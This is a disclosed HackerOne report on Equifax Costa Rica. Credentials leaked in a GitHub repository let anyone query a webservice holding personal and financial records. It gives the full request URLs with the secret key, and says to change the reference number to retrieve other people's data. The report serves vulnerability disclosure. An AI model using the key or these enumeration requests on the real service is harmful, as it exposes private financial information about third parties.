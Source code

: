 # Information Leak (Github)

## Report Details
- **Report ID**: 694931
- **URL**: https://hackerone.com/reports/694931
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-09-14T18:01:00.202Z
- **Disclosed**: 2020-04-09T20:47:52.176Z

## Reporter
- **Username**: zifrox
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: equifax

## Vulnerability Information
In Github I found some credentials to use in a webservice that exposes very sensitive information of people, family group, financial situation, and more.

Github:
https://github.com/geraldincg/proyecto/blob/9c89787deb1d217f58b58786d90bfb3eab290237/Proyecto/ViewModels/WebService/ConexionWS.cs

The  webservice is subdomain for Costa Rica:
Change "referencia" identification number to obtain different results.
Example:

https://webservices.equifax.cr/webservices/efx_consultas.asmx/Estudio_360_Fisico?referencia=891550&Cedula=&Usuario=&Clave=EKJH1QF2IXL3FSI4APWSD5XWFGX63KLK76JFXU80RTCQWS&Usuario_Datum=

https://webservices.equifax.cr/webservices/efx_consultas.asmx/Estudio_360_Fisico?referencia=891547&Cedula=&Usuario=&Clave=EKJH1QF2IXL3FSI4APWSD5XWFGX63KLK76JFXU80RTCQWS&Usuario_Datum=

https://webservices.equifax.cr/webservices/efx_consultas.asmx/Estudio_360_Fisico?referencia=891543&Cedula=&Usuario=&Clave=EKJH1QF2IXL3FSI4APWSD5XWFGX63KLK76JFXU80RTCQWS&Usuario_Datum=

## Impact

An attacker can extract information any people in the system.

## Attachments
- cr02.png
- cr01.png
